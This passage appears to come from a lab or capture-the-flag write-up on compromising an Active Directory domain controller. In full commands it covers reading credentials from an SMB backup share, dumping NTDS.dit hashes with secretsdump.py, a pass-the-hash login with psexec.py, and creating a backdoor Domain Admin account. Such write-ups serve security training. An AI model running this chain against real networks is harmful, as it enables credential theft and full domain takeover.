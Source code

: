 We connect to the `backup` share:

```bash
smbclient //10.10.230.172/backup -U svc-admin
```

Inside, we find a base64-encoded file: `backup_credentials.txt`

```bash
cat backup_credentials.txt | base64 -d
```

### Decoded:

```
backup@spookysec.local:[REDACTED]
```

---

## 🪜 Privilege Escalation to Domain Admin

The `backup` account has access to the domain controller’s filesystem via SMB. We use this access to dump the **NTDS.dit** Active Directory database.

### NTDS Dump with secretsdump.py

```bash
secretsdump.py backup@spookysec.local:[REDACTED]@10.10.230.172
```

We extract hashes for all domain users — including the `Administrator` account.

---

## 🪝 Pass-the-Hash Attack

We use the Administrator NTLM hash to authenticate without a password:

```bash
psexec.py spookysec.local/Administrator@10.10.230.172 -hashes [REDACTED]:[REDACTED]
```

This gives us a SYSTEM shell on the domain controller.

---

## 🧪 Persistence: Create New Domain Admin User

```powershell
net user redteam P@ssw0rd123 /add
net group "Domain Admins" redteam /add
```

We now have a stealthy backdoor domain admin user for persistence.

---
